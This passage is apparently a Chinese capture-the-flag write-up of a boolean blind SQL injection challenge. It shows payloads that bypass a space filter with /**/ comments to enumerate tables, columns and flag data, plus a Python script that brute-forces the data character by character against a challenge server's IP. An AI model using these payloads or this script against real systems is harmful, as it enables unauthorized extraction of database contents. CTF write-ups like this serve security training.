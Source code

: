发现返回正常界面

```
stunum = if(length(database())>3,1,0)
```

又变回错误的界面了。

说明存在bool盲注

测试得到过滤了空格

爆表：

```
if((select(substr(group_concat(table_name),1,1))from/**/information_schema.tables/**/where/**/table_schema=database())='a',1,2)
```

爆列：

```
if((select(substr(group_concat(column_name),1,1))from/**/information_schema.columns/**/where/**/table_schema=database())='a',1,2)
```

爆数据：

```
if((select(substr(group_concat(value),1,1))from/**/flag)='a',1,2)
```

写脚本

```python
import requests

s=requests.session()
flag = ''
for i in range(1,50):
    for j in '{qwertyuiopasdfghjklzxcvbnm_@#$%^&*()_+=-0123456789,./?|}':
        url="http://101.200.53.102:10114/?stunum=if((select(substr(group_concat(table_name),{},1))from/**/information_schema.tables/**/where/**/table_schema=database())='{}',1,2)".format(i,j)
        #url="http://101.200.53.102:10114/?stunum=if((select(substr(group_concat(column_name),{},1))from/**/information_schema.columns/**/where/**/table_schema=database())='{}',1,2)".format(i,j) 
        #url="http://101.200.53.102:10114/?stunum=if((select(substr(group_concat(value),{},1))from/**/flag)='{}',1,2)".format(i,j)
        c = s.get(url ,timeout=3)
        #print c.text
        if 'Hi admin' in c.text:
            flag += j
            print(flag)
            break
```

就可以跑出flag了。

# [WUSTCTF2020]朴实无华
